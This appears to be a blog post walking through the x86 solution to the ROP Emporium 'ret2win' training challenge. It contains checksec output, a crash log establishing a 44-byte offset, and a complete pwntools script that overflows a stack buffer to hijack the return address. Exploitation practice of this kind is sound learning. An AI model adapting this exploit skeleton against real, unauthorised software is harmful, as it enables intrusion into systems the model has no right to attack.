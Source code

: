 ```yaml
---
---
layout: post
title:  "ROP Emporium - ret2win"
date:   2023-08-05 19:59:44 +0300
categories: jekyll update
---
```


**Contents**
* TOC
{:toc}
## Introduction
Lately I've decided that my next current goal is to gain deeper exploitation knowledge, regarding ARM and MIPS architectures. And whats better than learning by hands?
The ROP Emporium platform offers 8 exploitation challenges, for `x86, x64, ARMv5, mips`. 
Lets do them all!

## Tools
To find ROP gadgets, my regular go-to tool is `ropper`. \
Just in case it might miss few gadgets here and there, I would also use `ROPGadget` (which is abit more recommended for ARM architecture). \
`pwntools` is mandatory for such challenges.

As a debugger, I'd use `pwndbg`. \
It has great integration with `pwntools`, which can automate debugging tasks by running `gdb` from a pythonic script. 

`checksec` is good to learn the challenge's mitigations settings. `rabin2` is also an option.

## Tips
1. Note that for stripped binaries, external functions (that are being imported by the binary) names may be resolved from their shared objects:
```bash
nm -u <binary>  # list external functions
rabin2 -qs <binary> | grep -ve imp -e ' 0 '  # try to list internal functions
```

2. The ROP Emporium challenges contains a `usefulGadgets` symbol, which marks the address of added gadgets to the binary. 

3. In order to find strings (avoid using `strings` binary):
```bash
rabin2 -z split
```

4. Make sure the stack is 16-Byte aligned before `call` instruction.

5. When debugging with GDB, calling `system` with invalid string may start `/usr/bin/bash`. 
   This works specifically within a debugger, not the remote target. 
   
6. Use `ltrace` to track library calls. 

## x86

```bash
$ file ret2win32
ret2win32: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=e1596c11f85b3ed0881193fe40783e1da685b851, not stripped

$ checksec ret2win32
[*] '/home/itay/projects/rop_emporium/rop_emporium_all_challenges/ret2win32/ret2win32'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)

```
This challenge reads 56 bytes into 32 stack buffer, via `read` call. \
A function named `ret2win` prints the flag, and located within `0x804862c`. 

The amount of needed garbage bytes is 44:
```bash
$ sudo dmesg -C
$ echo `python -c 'print("A"*44 + "B" * 4)'` | ./ret2win32
$ sudo dmesg
[ 4285.835462] show_signal_msg: 7 callbacks suppressed
[ 4285.836441] ret2win32[32818]: segfault at 42424242 ip 0000000042424242 sp 00000000ff9c0940 error 14 in libc.so.6[f7c00000+20000]
[ 4285.836884] Code: Unable to access opcode bytes at RIP 0x42424218.
```
The exploit for x86 is simple (would use it as a skeleton for most of the challenges):
```python
import pwn  
import logging  
  
  
logging.basicConfig(  
    level=logging.DEBUG,  
    format= '[%(asctime)s] {%(pathname)s:%(lineno)d} %(levelname)s - %(message)s',  
    datefmt='%H:%M:%S'  
)  
logger = logging.getLogger(__name__)  
  
DEBUG = True  
BINARY = './ret2win32'  
GOAL_FUNCTION = 'ret2win'  
GOAL_ADDRESS = 0  
  
GDB_SCRIPT = f'''  
set pagination off  
set disassembly-flavor intel  
  
b *0x804862c  
commands printf "woot, reached goal address"  
bt  
c  
end  
  
c  
'''  
  
  
def set_properties(elf):  
    global GOAL_ADDRESS  
    GOAL_ADDRESS = elf.symbols[GOAL_FUNCTION]  
  
    pwn.context.bits = elf.bits  
    pwn.context.endian = elf.endian  
    pwn.context.arch = elf.arch  
    pwn.context.log_level = 'debug'  
  
  
def create_shellcode():  
    shellcode = b''  
    shellcode += 44 * b'A'  
    shellcode += pwn.p32(GOAL_ADDRESS)  
  
    logging.info(f'Created shellcode:\n{shellcode}')  
  
    return shellcode  
  
  
def exploit(p, shellcode):  
    if DEBUG:  
        pwn.gdb.attach(p, GDB_SCRIPT)  
  
    p.sendline(shellcode)  
    p.recvuntil('Thank you!')  
  
    data = p.recvall()  
    logger.info(f'FLAG:{data}')  
  
    p.interactive()  
  
  
def main():  
    elf = pwn.ELF(BINARY)  
    set_properties(elf)  
  
    shellcode = create_shellcode()  
  
    p = pwn.process(BINARY)  
  
    exploit(p, shellcode)  
  
  
if __name__ == '__main__':  
    main()
```
